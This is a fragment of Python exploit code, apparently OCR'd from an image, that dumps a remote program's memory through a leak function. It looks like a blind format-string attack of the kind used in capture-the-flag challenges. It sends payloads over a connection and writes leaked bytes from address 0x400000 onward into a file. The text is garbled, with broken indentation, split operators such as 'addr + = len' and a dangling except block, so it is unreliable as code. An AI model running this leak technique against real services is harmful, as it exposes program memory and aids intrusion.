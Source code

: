 ```python
            if '\x0a' in payload:

                return None

            sh.sendline(payload)

            data = sh.recvuntil('STARTEND', drop=True)

            sh.close()

            return data

        except Exception:

num + = 1
            continue

    return None



def getbinary():

	addr = 0x400000

	f = open('binary', 'w')

	while addr < 0x401000:

		data = leak(addr)

		if data is None:

			f.write('\xff')

			addr += 1

elif len (data) == 0:
			f.write('\x00')

			addr += 1

		else:

			f.write(data)

addr + = len (data)
	f.close()

getbinary()

```
